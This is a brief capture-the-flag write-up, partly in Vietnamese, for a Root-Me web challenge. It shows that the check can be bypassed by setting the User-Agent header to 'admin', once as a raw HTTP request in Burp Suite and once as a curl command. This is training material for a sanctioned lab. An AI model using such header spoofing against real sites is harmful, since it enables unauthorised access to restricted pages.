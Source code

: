 Way 1: Dùng Burp Suite

GET /web-serveur/ch2/ HTTP/1.1
Host: challenge01.root-me.org
User-Agent: admin 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: admin

Way 2: curl -A 'admin' http://challenge01.root-me.org/web-serveur/ch2/


![img1](Img_1.png)